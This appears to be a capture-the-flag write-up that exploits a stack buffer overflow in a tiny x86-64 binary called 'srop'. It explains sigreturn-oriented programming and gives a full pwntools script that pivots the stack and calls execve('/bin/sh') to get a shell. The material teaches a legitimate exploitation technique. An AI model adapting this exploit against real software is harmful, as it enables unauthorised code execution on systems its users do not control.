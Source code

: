 We will start by inspecting the assembly of our binary. 

Commented output of `objdump -d -M intel srop`

```
0000000000401000 <_start>:
  401000:       e8 08 00 00 00          call   40100d <main>
# Call exit syscall
  401005:       b8 3c 00 00 00          mov    eax,0x3c
  40100a:       0f 05                   syscall 
  40100c:       c3                      ret    

000000000040100d <main>:
# Setup a stackframe of size 8
# Allocates a buffer of size 8
  40100d:       55                      push   rbp
  40100e:       48 89 e5                mov    rbp,rsp
  401011:       48 83 ec 08             sub    rsp,0x8
# Call _read(buffer)
  401015:       48 8d 7d f8             lea    rdi,[rbp-0x8]
  401019:       e8 05 00 00 00          call   401023 <_read>
  40101e:       48 89 ec                mov    rsp,rbp
  401021:       5d                      pop    rbp
  401022:       c3                      ret    

0000000000401023 <_read>:
# Call the syscall read(0, buffer, 0x200)
  401023:       55                      push   rbp
  401024:       48 89 e5                mov    rbp,rsp
  401027:       48 83 ec 08             sub    rsp,0x8
  40102b:       48 89 fe                mov    rsi,rdi
  40102e:       bf 00 00 00 00          mov    edi,0x0
  401033:       ba 00 02 00 00          mov    edx,0x200
  401038:       b8 00 00 00 00          mov    eax,0x0
  40103d:       0f 05                   syscall 
  40103f:       48 89 ec                mov    rsp,rbp
  401042:       5d                      pop    rbp
  401043:       c3                      ret    
```

This binary is very small and is especially challenging. It just reads a string
from the user, does nothing with it, then exits. There is a buffer overflow when
we call the read syscall since our buffer is only 8 bytes long. However, it's
difficult to do anything with this buffer overflow.

There is a significant lack of ROP gadgets in this binary and we cannot jump to
libc since libc is not even linked. We can still exploit this problem with a
technique known as sigreturn oriented programming.

Sigreturn is a syscall used by Linux signal handlers when context switching.
When a program is interrupted, the kernel pushes the entire execution context
onto the stack then jumps to the signal handler. When the signal handler is
finished, it calls sigreturn which restores the execution state from the stack.

The idea behind sigreturn oriented programming is that if we can call sigreturn
with a forged sigreturn struct at RSP, we can populate every register with user
controlled values.

With this idea in mind, we first need to figure out how to call the sigreturn
syscall. The syscall number for `sigreturn` is `0xf`. There are `syscall`
gadgets in our binary, so the first challenge is just to set `rax = 0xf`.
Fortunately for us, the `read` syscall sets `rax` to the number of bytes read.
Consider the following ROP chain:

```
[ overflow bytes  ]
[ saved rbp       ]
[ main            ] <== rsp
[ syscall         ]
[ sigreturn frame ]
```

This ropchain will call main, we can enter 15 bytes. This will set `rax = 0xf`
then the ropchain will perform a syscall. Notice that by this point `RSP` will
be pointing to the top of our fake sigreturn frame. So this rop chain will
properly call sigreturn and will give us control over all registers.

The next challenge is to figure out how to actually exploit this program. There
are probably several ways to solve this problem (mprotect, execve, etc). I chose
to use execve for simplicity. To call `execve('/bin/sh')` we need to write
`/bin/sh` to a known address in memory. To do this, I used the sigreturn call to
change `RSP` and `RBP` to static writeable addresses, then called main again.
The sigreturn frame looks something like this:

```
[RIP -> main]
[RBP -> .bss] (.bss is a writeable section located at 0x402000)
[RSP -> .bss] (check readelf -S srop for more info)
```

Now we're just executing main, but we know `RSP` and `RBP`. We can reuse our
original ropchain with the string `/bin/sh` appended. This time our sigreturn
frame will look something like this. We will also append a pointer to the
`/bin/sh` string so properly set the argv value for execve.

```
[RIP -> syscall gadget]
[RBP -> .bss] (.bss is a writeable section located at 0x402000)
[RSP -> .bss] (check readelf -S srop for more info)
[RDI -> /bin/sh string]
[RSI -> pointer to /bin/sh]
[RDX -> NULL]
```

After this ropchain executes, we'll call `execve('/bin/sh', {'/bin/sh', NULL}, NULL)`.

Here's the code
```
from pwn import *

r = process("./srop")
e = ELF("./srop")
rop = ROP(e)

context.clear(arch='amd64')
context.terminal = ["tmux", "splitw", "-h"]

# Middle of the bss segment
# We can't use the beginning because the stack grows downward
# We can't use the end because the string we're writing grows upward
writeable = e.bss() + (0x1000 // 2)

# Sigreturn frame for stack pivot
frame = SigreturnFrame()
frame.rbp = writeable
frame.rsp = writeable
frame.rip = (e.symbols["main"])

# Payload to execute stack pivot
payload = 0x10*b'a'
payload += p64(e.symbols["main"])
payload += p64(rop.find_gadget(["syscall"])[0])
payload += bytes(frame)

# Sleep because I had issues with some sort of race condition
r.sendline(payload)
sleep(1)

# Sigreturn is syscall 0xf
# -1 due to the newline
syscall = 0xf-1
r.sendline(b'a'*syscall)
sleep(1)

# Sigreturn frame for calling execve
frame = SigreturnFrame()
frame.rbp = writeable
frame.rsp = writeable
frame.rip = (rop.find_gadget(["syscall"])[0])
# Execve is syscall number 59
frame.rax = 59
# I just calculated these addresses in gdb
frame.rdi = e.bss() + 0x908
frame.rsi = e.bss() + 0x910
frame.rdx = e.bss()

# Payload to run execve
payload = 0x10*b'b'
payload += p64(e.symbols["main"])
payload += p64(rop.find_gadget(["syscall"])[0])
payload += bytes(frame) + b'/bin/sh\x00' + p64(e.bss() + 0x908) + p64(0)

r.sendline(payload)
sleep(1)

syscall = 0xf-1
r.sendline(b'c'*syscall)

r.interactive()
```
